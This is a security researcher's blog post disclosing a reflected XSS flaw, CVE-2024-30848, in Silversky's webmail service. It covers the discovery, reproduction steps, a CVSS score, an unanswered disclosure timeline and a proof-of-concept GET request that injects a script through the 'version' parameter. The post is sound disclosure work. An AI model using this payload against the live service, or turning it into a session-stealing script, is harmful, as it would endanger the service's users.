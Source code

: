 ```yaml
---
title: "CVE-2024-30848: An XSS Vulnerability in Silversky's Mailing Service"
date: 2024-06-16 01:00:00 +0200
categories:
  CVE
  Vulnerabilities
tags:
  xss
pin: true
mermaid: true
image:
  path: /Excis3/excis3.github.io/main/media/cve.png
  lqip: /Excis3/excis3.github.io/main/media/cve.png
  alt: CVE
---
```



![CVE Image](/Excis3/excis3.github.io/main/media/cve.png)

As security researchers, we often stumble upon vulnerabilities that have the potential to compromise systems and expose sensitive information. One such discovery is the Cross-Site Scripting (XSS) vulnerability, identified as CVE-2024-30848, in Silversky's mailing protection service. This blog post details the discovery process, the vulnerability itself, and the disclosure timeline.


## Introduction
Cross-Site Scripting (XSS) vulnerabilities are a common yet dangerous threat to web applications, allowing attackers to inject malicious scripts into web pages viewed by other users. On March 17, 2024, I discovered an XSS vulnerability in a hidden parameter named **version** within Silversky's mailing protection service. Despite multiple attempts to contact Silversky for remediation, the company has not responded.


## The Discovery
The journey to uncovering CVE-2024-30848 began quite unexpectedly. I got a message from my bug bounty framework that it had found an XSS. While reviewing the findings, I noticed that a particular program was using an external webmail service where the XSS was popping. Intrigued by this, I delved deeper into the service, which led me to discover that the service they were using was provided by Silversky. During this examination, I identified a hidden parameter named **version** that appeared to be vulnerable to XSS attacks.


## Technical Details
Silversky mailing service is a webmail service that they provide to various customers. However, the hidden **version** parameter within its web interface was susceptible to XSS. By exploiting this vulnerability, an attacker could inject malicious scripts into the webpage, potentially compromising the security of the users interacting with the service.


### Steps to Reproduce the Vulnerability
1. Access the Silversky mailing protection service web interface.
2. Locate the hidden **version** parameter in the HTTP request.
3. Inject a malicious script into the **version** parameter.
4. Observe the execution of the script when the webpage is loaded, confirming the XSS vulnerability.


### PoC
```
GET /tpl/Door/Login?Domain=&version=1--%3E%3Cbody%3E%3Ch1%3EPoC%20by%20Excis3%3C/h1%3E%3Cscript%3Eprint(%271%27)%3C/script%3E%3C/body%3E%3C/html%3E%3C!-- HTTP/1.1
Host: <HOST>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers
Connection: keep-alive
```


### CVSS Breakdown
| Vector                       | Country |
| :--------------------------- | ------: |
| Attack Vector (AV) | Network |
| Attack Complexity (AC) | Low |
| Privileges Required (PR) | None |
| User Interaction (UI) | Required |
| Scope (S) | Changed |
| Confidentiality (C) | Low |
| Integrity (I) | Low |
| Availability (A) | None |

Score: Medium 6.1


## Disclosure Timeline
The following timeline outlines the attempts made to disclose this vulnerability to Silversky:

- **March 17, 2024**: Vulnerability discovered.
- **March 18, 2024**: Initial disclosure email sent to supportdb@silversky.com.
- **March 18, 2024**: MITRE CVE request.
- **March 22, 2024**: Follow-up email sent to supportdb@silversky.com.
- **March 22, 2024**: Email sent to Jackson, the CTO, at jackson@silversky.com.
- **March 22, 2024**: Reached out to Silversky via Twitter (@silversky).
- **March 22, 2024**: Attempted to connect with relevant personnel on LinkedIn.
- **April 04, 2024**: MITRE Reserved CVE-2024-30848
- **May 7, 2024**: Final email sent to supportdb@silversky.com.
- **June 18, 2024**: Disclosed issue.

Despite these efforts, no response was received from Silversky regarding the reported vulnerability.


## Conclusion
CVE-2024-30848 highlights the importance of timely and effective communication between security researchers and software providers. While discovering vulnerabilities is crucial, addressing them promptly is equally important to safeguard users. As security researchers, our goal is to enhance the safety and security of digital systems. Publicly disclosing this vulnerability after the 90-day grace period is a step towards urging Silversky to take action and protect its users from potential XSS attacks. We hope this disclosure will lead to the necessary remediation and raise awareness about the significance of addressing security vulnerabilities.

Stay safe and secure,

**Excis3**
